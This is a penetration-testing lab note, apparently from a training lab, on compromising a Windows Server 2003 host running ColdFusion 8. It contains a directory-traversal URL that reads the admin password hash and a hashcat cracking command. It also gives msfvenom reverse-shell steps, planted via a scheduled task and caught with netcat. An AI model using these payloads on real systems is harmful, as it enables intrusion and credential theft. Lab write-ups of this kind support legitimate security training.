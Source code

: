 # Summary
# Location
- IP Address: 10.11.1.10
## System Information
- OS: Microsoft(R) Windows(R) Server 2003, Standard Edition
- Kernal: 5.2.3790 Service Pack 2 Build 3790
- Hostname: MIKE
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
- Exploit 2
- Exploit 3
## Post Exploitation
- Proof
## Credentials
### ColdFusion8
- uri: http://10.11.1.10/CFIDE/administrator/
- username: admin
- password: pass123

## System Setup
- ICMP: Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
- Platform:

## Notes

# Service Enumeration
## Port Scan (Nmap)

## Key Infomation
Microsoft-IIS/6.0
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th

1.Gobuster find a dir '/cfdocs', By google, found it may be adobe fusion.
Tried new url:  http://10.11.1.10/CFIDE/administrator/enter.cfm

# Exploitation
## Exploit 1
- Title: 
- CVE: 
- EBD-ID: 
- Link: https://pentest.tonyng.net/attacking-adobe-coldfusion/
http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

get the password hash 'AAFDC23870ECBCD3D557B6423A8982134E17927E'

use hashcat to brute force.
hashcat --hash-type 100 --attack-mode 0 -d 2 coldfusion.pass /usr/share/wordlists/rockyou.txt

got the password: pass123


## Exploit 2
- Title: 
- CVE:
- EBD-ID: 
- Link: 

gen malicious code with `msfvenom -p php/reverse_php -f raw LHOST=192.168.119.215 LPORT=4444`

start a web server

create a Scheduled Tasks to get the malicious.jsp and store it to `C:\Inetpub\wwwroot\CFIDE\mshell.jsp`

enable Save output to a file.

Then run the task with action btn.

start nc listening and visit the url 'http://10.11.1.10/CFIDE/mshell.jsp'.

We can get a reverse shell.



NEED ROOT

## Exploit 3
- Title:
- CVE:
- Link:
